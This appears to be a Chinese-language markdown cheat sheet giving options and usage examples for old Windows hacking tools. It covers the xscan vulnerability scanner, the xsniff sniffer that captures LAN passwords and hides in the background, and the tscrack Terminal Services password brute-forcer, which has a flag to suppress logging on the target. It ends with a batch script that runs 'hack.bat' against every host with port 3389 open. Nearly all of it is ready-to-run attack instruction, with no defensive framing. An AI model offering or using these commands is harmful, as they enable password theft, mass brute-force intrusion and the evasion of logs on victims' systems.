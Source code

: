 `-nasl` 加载Nessus攻击脚本
`-all` 检测以上所有项目
_其它选项:_
`-i` 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
`-l` 显示所有网络适配器
`-v` 显示详细扫描进度
`-p` 跳过没有响应的主机
`-o` 跳过没有检测到开放端口的主机
`-t` 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
`-log` 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
##### 用法示例
`xscan -host 192.168.1.1-192.168.255.255 -all -active -p　`检测`192.168.1.1-192.168.255.255`网段内主机的所有漏洞，跳过无响应的主机
`xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o `检测`192.168.1.1-192.168.255.255`网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
`xscan -file hostlist.txt -port -cgi -t 200,5 -v -o `检测`hostlist.txt`文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
### 命令行方式嗅探器: xsniff.exe
#### 可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
##### 参数说明:
`-tcp` 输出TCP数据报
`-udp` 输出UDP数据报
`-icmp` 输出ICMP数据报
`-pass` 过滤密码信息
`-hide` 后台运行
`-host` 解析主机名
`-addr IP地址` 过滤IP地址
`-port 端口` 过滤端口
`-log 文件名` 将输出保存到文件
`-asc` 以ASCII形式输出
`-hex` 以16进制形式输出
##### 用法示例
`xsniff.exe -pass -hide -log pass.log `后台运行嗅探密码并将密码信息保存在pass.log文件中
`xsniff.exe -tcp -udp -asc -addr 192.168.1.1` 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
### 终端服务密码破解: tscrack.exe
#### 参数说明
`-h` 显示使用帮助
`-v` 显示版本信息
`-s` 在屏幕上打出解密能力
`-b` 密码错误时发出的声音
`-t` 同是发出多个连接（多线程）
`-N` Prevent System Log entries on targeted server
`-U` 卸载移除tscrack组件
`-f` 使用－f后面的密码
`-F` 间隔时间（频率）
`-l` 使用`－l`后面的用户名
`-w` 使用`－w`后面的密码字典
`-p` 使用`－p`后面的密码
`-D` 登录主页面
##### 用法示例
`tscrack 192.168.0.1 -l administrator -w pass.dic` 远程用密码字典文件暴破主机的`administrator`的登陆密码
`tscrack 192.168.0.1 -l administrator -p 123456` 用密码`123456`远程登陆`192.168.0.1`的`administrator`用户
```
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
```
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行`hack.bat`
```
```